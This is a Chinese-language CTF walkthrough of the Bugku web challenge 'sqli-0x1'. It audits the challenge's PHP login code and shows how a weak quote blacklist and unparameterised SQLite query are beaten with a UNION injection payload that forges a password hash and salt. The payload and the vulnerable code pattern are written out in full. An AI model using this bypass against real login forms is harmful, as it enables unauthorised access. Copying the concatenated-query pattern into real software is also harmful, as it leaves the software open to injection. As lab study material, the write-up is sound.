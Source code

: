 # [CTF-Web]sqli-0x1——bugku

MiracleWolf 2023-11-15 2711/15

# 一、题目链接

[bugku-Web-sqli-0x1](https://ctf.bugku.com/challenges/detail/id/406.html "sqli-0x1")

## 二、解法步骤

```
打开网址，查看网页源代码，发现提示：
```

[![[CTF-Web]sqli-0x1——bugku](http://47.98.239.98/wp-content/uploads/2023/11/47ASWO_O_EB34_B63SVP-1.png "[CTF-Web]sqli-0x1——bugku")](http://47.98.239.98/wp-content/uploads/2023/11/47ASWO_O_EB34_B63SVP-1.png)  
于是访问：得到网页php代码：  
首先看第一部分中的过滤函数：

```php
require_once("flag.php");
function is_trying_to_hak_me($str)
{
    $blacklist = ["' ", " '", '"', "`", " `", "` ", ">", "<"];//过滤符号
    if (strpos($str, "'") !== false) { //确保str中有单引号
        if (!preg_match("/[0-9a-zA-Z]'[0-9a-zA-Z]/", $str)) {
            return true;//确保str中有0-9数字或字母

    }
    foreach ($blacklist as $token) { //不能有被过滤的符号
        if (strpos($str, $token) !== false) return true;
    }
    return false;
}
```

这段过滤是比较鸡肋的，我们只需要确保str中有单引号和数字或字母即可，被过滤的符号中有："' "，这个和"'"是不同的，因此最后一层的过滤是无效的，  
接下来是第二部分

```php
if (isset($_POST["user"]) && isset($_POST["pass"]) && (!empty($_POST["user"])) && (!empty($_POST["pass"]))) {
    $user = $_POST["user"]; //$user接受传入user参数
    $pass = $_POST["pass"];//$pass接受传入pass参数
    if (is_trying_to_hak_me($user)) { //利用过滤函数进行过滤
        die("why u bully me");
    }

    $db = new SQLite3("/var/db.sqlite");//创建数据库
    $result = $db->query("SELECT * FROM users WHERE username='$user'");//查询传入数据库的$user
    if ($result === false) die("pls dont break me");//结果需要存在
    else $result = $result->fetchArray();//将查询结果构成一个关联数组

    if ($result) {
        $split = explode('$', $result["password"]);//将查询结果中的password字段中的内容按照$进行分割
        $password_hash = $split[0];//加密哈希设置为分割的第一部分
        $salt = $split[1];//偏移量设置为分割的第二部分
        if ($password_hash === hash("sha256", $pass.$salt)) $logged_in = true;//如果加密哈希等于输入的 password 和 salt 进行拼接，即可成功登陆
      else $err = "Wrong password";
    }
    else $err = "No such user";
}
```

```
到这里关键点是控制原密码的哈希加密结果，也就是想办法覆盖掉原密码，从而使得我们自己创建的密码能成功登陆。这里可使用联合注入的方式进行覆盖。
首先user=1'，然后生成自定义密码，根据加密逻辑，我们通过php生成密码为1，偏移量为1的Hash：
```

```php
echo (hash("sha256","1"."1"));
结果：4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8
```

这个密码需要以$分割，前一部分是需要比对的hash值，后一部分是偏移量，  
我们这个前一部分就是1，1在sha256下的加密结果，那么只需在末尾多加上`$1`，即设定偏移量为1，最后的密码$pass我们传入1即可。  
然后将user字段进行联合注入:  
payload`1'union/**/select/**/1,'4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8$1`。这里/**/是为了避免单引号后面的空格被过滤函数检查到，第一个单引号绕过用户名，联合查询使得两个查询结果被合并在一起，第二个单引号闭合前面password的查询结果，使得我们可以控制加密密文  
pass传入1  
最后得到flag:[![[CTF-Web]sqli-0x1——bugku](http://47.98.239.98/wp-content/uploads/2023/11/@LGJ8NOJA7DL_TSD5.png "[CTF-Web]sqli-0x1——bugku")](http://47.98.239.98/wp-content/uploads/2023/11/@LGJ8NOJA7DL_TSD5.png)

三、总结  
本题较为复杂，首先需要对代码进行审计，然后利用联合查询注入获取flag，挺有难度的。